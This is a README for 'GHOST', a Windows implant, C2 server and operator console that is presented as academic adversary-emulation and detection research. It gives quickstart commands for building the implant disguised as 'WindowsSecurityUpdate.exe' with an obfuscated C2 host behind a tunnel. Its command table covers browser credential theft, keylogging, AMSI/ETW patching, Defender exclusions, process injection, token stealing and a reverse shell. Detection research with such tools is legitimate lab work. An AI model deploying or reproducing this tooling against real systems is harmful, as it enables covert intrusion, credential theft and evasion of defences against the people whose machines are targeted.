

<div align="center">

# 👻 GHOST

### Adversary Emulation & Detection Research Framework

*A modular Windows post-exploitation framework for studying attacker tradecraft<br>and validating defensive detections in isolated lab environments.*


</div>

---

> [!CAUTION]
> ### ⚠️ Authorized Laboratory Use Only
> This project is developed **exclusively for academic research** — studying Windows internals,
> adversary emulation, and detection engineering inside **isolated, personally-owned lab VMs**.
> Deploying this software against any system without **explicit written authorization** is
> illegal in most jurisdictions. The author takes no responsibility for misuse.

---

## 📖 Overview

GHOST is a final-year research project built to answer one question from both directions:

> *What does modern post-exploitation tradecraft actually look like on the wire, in memory,
> and in endpoint telemetry — and can defenders see it?*

It ships three cooperating components:

| Component | Tech | Purpose |
|---|---|---|
| **Implant** | C++17 · Win32/Native API · MinGW cross-compile | Beacon agent demonstrating post-exploitation tradecraft |
| **C2 Server** | Python · Flask REST · in-memory state | Task routing, session management, operator auth |
| **Operator CLI** | Python · readline console | Scriptable operator console with command history |

The value of the project is **measurability**: every technique the implant uses is mapped to
MITRE ATT&CK, so each capability doubles as a detection test case for EDR/SIEM validation.

---

## 🏗️ Architecture


```mermaid
flowchart LR
    subgraph OPS["🖥️ Operator Side"]
        CLI["c2_cli.py<br/>operator console"]
        DASH["Web dashboard<br/>session view · tasking"]
    end

    subgraph INFRA["☁️ C2 Infrastructure (lab VPS)"]
        SRV["c2_server.py<br/>Flask REST · audit log<br/>payload staging"]
        TUN["ngrok / TLS tunnel"]
    end

    subgraph VICTIM["🪟 Lab VM — Windows x64"]
        IMPLANT["GHOST implant<br/>WindowsSecurityUpdate.exe"]
    end

    CLI -->|"X-Operator-Token"| SRV
    DASH --> SRV
    SRV === TUN
    IMPLANT -->|"HTTPS beacon<br/>ECDH P-256 · AES-256-GCM"| TUN
    TUN --> SRV
```

**Task flow:** the implant polls `POST /beacon` on a jittered 18–24 s interval; queued tasks
arrive in the beacon response, results return via `POST /result`, and both bodies are
encrypted end-to-end between implant and server.

---

## 🔐 Channel Security

The C2 channel is layered so that neither the tunnel provider nor a passive network observer
sees task content:

| Layer | Mechanism | Protects against |
|---|---|---|
| Transport | HTTPS (WinHTTP) through an ngrok/TLS front | Passive LAN / ISP observers |
| Channel key | **Ephemeral ECDH P-256** — implant generates a fresh keypair *per run*, server publishes its point in every beacon response; both derive `SHA-256(ECDH)` | Key recovery from captured traffic — no key material ever crosses the wire |
| Payload | **AES-256-GCM** (BCrypt / `cryptography`), `Base64(nonce‖tag‖ct)` wire format | Tunnel provider and TLS-terminating middleboxes reading task traffic |
| Auth | Constant-time `X-Beacon-Token` / `X-Operator-Token` headers | Unauthenticated beacon injection / tasking |

Self-healing: if the server restarts (rotating its keypair and in-memory state), the next
encrypted beacon is answered with a plaintext *re-handshake* response carrying a fresh server
public point — the implant adopts the new key within one beacon interval, no operator action.

> **Known limitation (documented for the thesis):** the handshake authenticates the *beacon
> token*, not the server identity, and the transport ignores certificate errors by design —
> so an active HTTPS-MITM positioned in front of the server can interpose. The channel
> encryption targets passive observers and the tunnel provider, not an active adversary.
> This is an explicit scope decision for the lab threat model.

---

## ⚡ Quickstart

### 1 — Build the implant (Linux, MinGW-w64 cross-compile)

```bash
sudo ./build.sh --setup                 # install mingw-w64 toolchain
C2_HOST=your-tunnel.example.com C2_PORT=443 ./build.sh
# → build/WindowsSecurityUpdate.exe
```

The C2 endpoint is XOR-obfuscated and baked in at build time.

### 2 — Run the C2 server

```bash
pip install -r server/requirements.txt
python server/c2_server.py --tls --auto-accept --beacon-token <token> --operator-token <token>
# Dashboard:  https://localhost:8080
```

### 3 — Operate

```bash
python server/c2_cli.py --url https://your-tunnel.example.com --token <operator-token>
ghost> sessions                        # list live sessions
ghost> use 0                           # attach to a session
ghost/0> !screenshot
```

### 4 — Run the protocol tests

```bash
python tests/test_protocol.py          # 13-check end-to-end channel test
```

CI runs both the protocol suite and a real MinGW-w64 cross-compile on every push
([.github/workflows/ci.yml](.github/workflows/ci.yml)).

---

## 🧪 Capabilities → ATT&CK Mapping

Every implanted technique is a detection test case. Validate your EDR against each row.

| Technique | ATT&CK | Module |
|---|---|---|
| HTTPS C2 beacon, jittered timing | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) · [T1027](https://attack.mitre.org/techniques/T1027/) | `c2.cpp` |
| Encrypted channel — symmetric + asymmetric | [T1573.001](https://attack.mitre.org/techniques/T1573/001/) · [T1573.002](https://attack.mitre.org/techniques/T1573/002/) | `utils.cpp` |
| Direct syscalls, hashed API resolution | [T1106](https://attack.mitre.org/techniques/T1106/) · [T1027](https://attack.mitre.org/techniques/T1027/) | `syscalls.cpp`, `obfuscate.hpp` |
| Remote thread / APC process injection | [T1055](https://attack.mitre.org/techniques/T1055/) · [T1055.004](https://attack.mitre.org/techniques/T1055/004/) | `injection.cpp` |
| PPID spoofing | [T1134.004](https://attack.mitre.org/techniques/T1134/004/) | `injection.cpp` |
| Registry Run key persistence | [T1547.001](https://attack.mitre.org/techniques/T1547/001/) | `persistence.cpp` |
| Scheduled task persistence | [T1053.005](https://attack.mitre.org/techniques/T1053/005/) | `persistence.cpp` |
| WMI event subscription persistence | [T1546.003](https://attack.mitre.org/techniques/T1546/003/) | `persistence.cpp` |
| Masquerading as Windows binary | [T1036.005](https://attack.mitre.org/techniques/T1036/005/) | `ghost.rc`, `main.cpp` |
| AMSI / ETW patching, Defender exclusion | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) | `evasion.cpp` |
| Sandbox / analysis-environment checks | [T1497](https://attack.mitre.org/techniques/T1497/) | `evasion.cpp` |
| Keylogging | [T1056.001](https://attack.mitre.org/techniques/T1056/001/) | `keylog.cpp` |
| Browser credential store extraction | [T1555.003](https://attack.mitre.org/techniques/T1555/003/) | `c2.cpp` |
| Screen capture | [T1113](https://attack.mitre.org/techniques/T1113/) | `c2.cpp` |
| Clipboard capture | [T1115](https://attack.mitre.org/techniques/T1115/) | `c2.cpp` |
| File upload / download (ingress + collection) | [T1105](https://attack.mitre.org/techniques/T1105/) · [T1005](https://attack.mitre.org/techniques/T1005/) | `c2.cpp` |
| Token manipulation | [T1134](https://attack.mitre.org/techniques/T1134/) | `c2.cpp` |

---

## 🗂️ Operator Command Reference

<details>
<summary><b>Click to expand — full implant command table</b></summary>

| Command | Description |
|---|---|
| `<any shell command>` | Persistent `cmd.exe` — working directory and `set` variables survive across tasks |
| `ps` / `!ps` | Process listing |
| `ps1 <line>` | Persistent interactive PowerShell session (`psreset` restarts it) |
| `!screenshot` | Full-screen capture (BMP, streamed base64) |
| `!vnc <on\|off>` | Live remote desktop stream |
| `!live` / `!input <text>` | Live view / synthetic input injection |
| `keylog_start` / `keylog_dump` / `keylog_stop` | Keystroke capture lifecycle |
| `!clipboard [get\|set <text>]` | Clipboard read/write |
| `!browser` | Browser credential recovery — Edge/Chrome saved passwords via `winsqlite3.dll` + DPAPI master key + AES-256-GCM (Chrome ≥127 app-bound entries reported as not recoverable) |
| `download <url> <dest>` / `upload <src> <dest>` | File transfer to/from implant |
| `!files [path]` / `!getfile <path>` | Directory listing / staged file retrieval |
| `!inject <pid> <shellcode>` / `!inject-apc <pid> <shellcode>` | Process injection (direct syscall / APC) |
| `!migrate <pid>` | Migrate implant into another process |
| `steal_token <pid>` | Duplicate a process primary token |
| `!reverse <host> <port>` | Reverse TCP shell |
| `!kill <pid>` | Terminate a process |
| `!prank <text>` / `!prank off` | **Visibility demo** — swap wallpaper + drop a desktop READ_ME note (`off` fully reverts) |
| `!popups` / `!popups off` | **Visibility demo** — random demo popups (`off` stops them) |
| `!env` / `!getpid` | Environment dump / implant PID |
| `!shell` | Toggle rapid-poll shell mode (fast task turnaround) |
| `sleep <sec>` | Override beacon interval |
| `!uninstall` | Remove all persistence and exit cleanly |
| `exit` | Clean shutdown |

</details>

---

## 📡 C2 Server API

| Endpoint | Auth | Purpose |
|---|---|---|
| `POST /beacon` | beacon token | Implant check-in — returns task (+ `spk` handshake) |
| `POST /result` | beacon token | Task output delivery |
| `GET /sessions` · `POST /sessions/<sid>/accept` · `…/reject` · `DELETE /sessions/<sid>` | operator token | Session lifecycle |
| `POST /task` · `GET /results/<sid>` | operator token | Tasking and output retrieval |
| `POST /payload` · `GET /payload` | operator / beacon | Binary staging |
| `GET /audit` · `POST /audit/clear` | operator token | Operator action audit trail |
| `POST /auth` · `GET /logout` | dashboard login | Web dashboard session |
| `GET /health` · `GET /ping` | — | Liveness |

---

## 📁 Project Layout

```text
ghostimplant/
├── include/            # implant headers
├── src/                # implant sources (C++17, Win32/Native API)
│   ├── main.cpp        # entry, self-install, restart supervisor
│   ├── c2.cpp          # beacon loop, task dispatcher, transport
│   ├── utils.cpp       # AES-GCM, ECDH, base64, system info
│   ├── syscalls.cpp    # direct syscall resolution
│   ├── evasion.cpp     # AMSI/ETW, sandbox checks
│   ├── injection.cpp   # injection + PPID spoofing
│   ├── persistence.cpp # run key / WMI / scheduled task
│   ├── keylog.cpp      # keystroke capture
│   └── vnc.cpp         # live desktop
├── server/             # Flask C2 server + operator CLI
├── tests/              # end-to-end channel protocol tests
├── resources/          # PE version resource + manifest
└── build.sh            # MinGW-w64 cross-compile (Linux)
```

---

## 🔬 Suggested Lab Methodology

1. **Isolate** — dedicated hypervisor network, no production credentials, VM snapshot before every run.
2. **Emulate** — deploy the implant; execute the capability matrix row by row.
3. **Collect** — Sysmon, ETW, and packet capture on the lab network.
4. **Detect** — write/validate SIEM rules against the telemetry; record what fires, what doesn't.
5. **Report** — every technique maps to an ATT&CK ID, so results roll up directly into coverage matrices.

---

## 🧭 Roadmap

- [ ] DNS-over-HTTPS fallback channel
- [ ] Operator documentation + architecture chapter (thesis write-up)
- [ ] Detection-validation harness emitting ATT&CK coverage matrices
- [ ] Optional server-side certificate pinning for the implant channel

---

## ⚖️ Disclaimer

This software is provided for **educational and authorized research purposes only**.
It implements techniques that are illegal to use against systems you do not own or lack
written authorization to test. The author does not endorse, support, or condone unauthorized
access, malicious activity, or any misuse of this software. Use it only inside isolated,
authorized laboratory environments.

> **About the `!prank` / `!popups` visibility demos:** these exist purely as *demonstration*
> effects for authorized lab walkthroughs — showing an audience that the operator had full
> desktop control. They are fully reversible (`!prank off`, `!popups off`), modify no files
> beyond a wallpaper bitmap and a text note, and carry no offensive function. They are not
> part of the ATT&CK-mapped research scope.

<div align="center">

*Research. Emulate. Detect. Improve.*

</div>
